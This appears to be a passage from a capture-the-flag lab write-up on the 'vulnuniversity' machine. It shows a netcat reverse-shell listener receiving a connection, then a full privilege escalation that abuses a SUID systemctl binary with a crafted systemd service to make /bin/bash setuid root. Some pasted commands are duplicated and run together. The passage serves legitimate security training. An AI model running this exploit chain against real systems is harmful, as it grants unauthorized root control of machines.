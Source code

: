![image](https://i.imgur.com/ZhaNR2p.jpg)

## On the system, search for all SUID files. What file stands out?

```yaml
 /bin/systemctl
```

### Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?

```yaml
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.18.8.23] from (UNKNOWN) [10.10.84.129] 47082
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:45:16 up  5:00,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
bash-4.3$ ls
ls
bin   etc         lib         media  proc  sbin  sys  var
boot  home        lib64       mnt    root  snap  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv   usr

bash-4.3$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TFTF=$(mktemp).service
bash-4.3$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
bash-4.3$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.L2ZnoQIOt3.service to /tmp/tmp.L2ZnoQIOt3.service.
bash-4.3$ 
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.L2ZnoQIOt3.service to /tmp/tmp.L2ZnoQIOt3.service.
bash-4.3$ 

bash-4.3$ ls
ls
bin   etc         lib         media  proc  sbin  sys  var
boot  home        lib64       mnt    root  snap  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv   usr
bash-4.3$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
bash-4.3$ cd root
cd root
bash: cd: root: Permission denied
bash-4.3$ cd /root
```